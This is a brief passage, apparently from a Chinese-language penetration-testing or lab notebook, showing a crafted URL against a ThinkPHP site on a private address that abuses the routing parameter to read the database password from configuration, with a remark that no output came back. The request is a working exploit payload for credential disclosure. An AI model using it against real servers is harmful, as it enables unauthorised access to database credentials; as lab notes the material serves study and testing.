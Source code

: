 <img src="image/image-20240409165215381.png" alt="image-20240409165215381" style="zoom: 67%;" />

```
http://192.168.1.132/thinkphp/public/?s=.|think\config/get&name=database.password
```

这里的应该是密码，但是发过去没有回显

<img src="image/image-20240409165932536.png" alt="image-20240409165932536" style="zoom:67%;" />
